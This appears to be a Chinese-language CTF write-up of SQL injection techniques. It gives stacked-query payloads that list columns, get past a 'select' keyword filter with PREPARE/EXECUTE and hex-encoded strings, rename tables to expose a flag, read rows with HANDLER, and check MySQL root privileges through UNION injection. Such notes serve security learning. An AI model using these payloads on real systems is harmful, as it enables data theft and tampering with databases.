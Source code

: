 ```sql
1';desc `1919810931114514`;# 
//查询列名
```

```sql
"PREPARE" 是一种用于准备和执行预编译语句的命令。它通常与 "EXECUTE" 一起使用

①
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#
//字符串拼接

②
1';PREPARE hacker from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;EXECUTE hacker;#
//select * from `1919810931114514`

③
1';Set @jia = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;PREPARE hacker from @jia;EXECUTE hacker;#
//@jia是一个定义的变量

④
查看words表结构第一个字段名为`id`我们把words表随便改成words1，然后把1919810931114514表改成words，再把列名flag改成id，就可以达到直接输出flag字段的值的效果：
1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
然后通过
1' or 1 = 1 #
成功获取到flag

⑤
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;
//mysql特有,可以逐行浏览某个表中的数据

例：

打开表：
HANDLER 表名 OPEN ;

查看数据：
HANDLER 表名 READ next;

关闭表：
HANDLER 表名 READ CLOSE;
```

## 文件读写

#### 权限查询
```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

super_priv:若返回Y则说明有超级用户权限
```
